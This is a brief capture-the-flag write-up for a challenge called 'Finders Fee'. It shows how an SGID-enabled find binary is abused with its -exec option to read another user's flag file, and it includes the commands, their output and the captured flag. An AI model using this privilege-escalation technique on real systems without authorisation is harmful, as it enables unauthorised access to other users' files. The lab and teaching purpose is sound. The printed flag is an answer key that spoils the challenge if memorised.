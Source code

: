 # Finders Fee

During enumeration, it was noticed `find` can see a `flag.txt` inside `/home/finder/`.

```shell
$ find / -user finder
/home/finder
/home/finder/.profile
/home/finder/.bash_logout
/home/finder/.bashrc
/home/finder/flag.txt
```

This is because `find` has a SGID bit set and is owned by group `finder`:

```shell
user@finders-fee-86252092b717d79d-5647b4dcf5-cxhjt:~$ ls -la /usr/bin/find
-rwxr-sr-x 1 root finder 204264 Apr  8  2024 /usr/bin/find
user@finders-fee-86252092b717d79d-5647b4dcf5-cxhjt:~$
```

Utilize `find` parameter `-exec` to get arbitrary command execution to read the flag:

```shell
user@finders-fee-86252092b717d79d-5647b4dcf5-cxhjt:~$ find /home/finder/flag.txt -exec cat {} \;
flag{5da1de289823cfc200adf91d6536d914}
user@finders-fee-86252092b717d79d-5647b4dcf5-cxhjt:~$
```
